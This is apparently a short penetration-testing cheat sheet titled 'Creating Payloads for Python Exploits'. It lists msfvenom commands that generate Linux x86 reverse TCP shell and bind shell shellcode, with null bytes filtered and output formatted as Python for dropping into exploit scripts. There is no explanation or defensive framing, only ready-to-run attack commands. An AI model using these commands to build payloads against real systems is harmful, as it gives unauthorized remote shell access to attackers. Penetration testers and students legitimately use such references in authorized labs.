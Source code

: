 # Creating Payloads for Python Exploits

**List all payloads**

```
msfvenom -l payloads
```

**Linux x86 Reverse TCP Shell**

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Linux x86 Bind Shell**

```
msfvenom -p generic/shell_bind_tcp RHOST=$ip LPORT=4444 -b "\x00" -f py
```

